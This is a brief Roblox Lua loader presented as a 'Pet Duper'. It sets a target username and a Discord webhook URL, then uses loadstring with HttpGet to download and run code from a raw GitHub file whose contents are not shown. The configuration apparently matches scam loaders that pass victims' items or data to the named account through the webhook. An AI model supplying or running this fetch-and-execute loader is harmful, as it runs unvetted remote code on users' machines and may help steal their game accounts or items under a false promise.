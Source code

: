 _G.Username = "Builderman"

_G.HubName = "Pet Duper"

_G.WebhookUrl = "discord.com/......."

loadstring(game:HttpGet("https://raw.githubusercontent.com/Jayiioceanii/PeakOnTop/main/peak.lua"))()
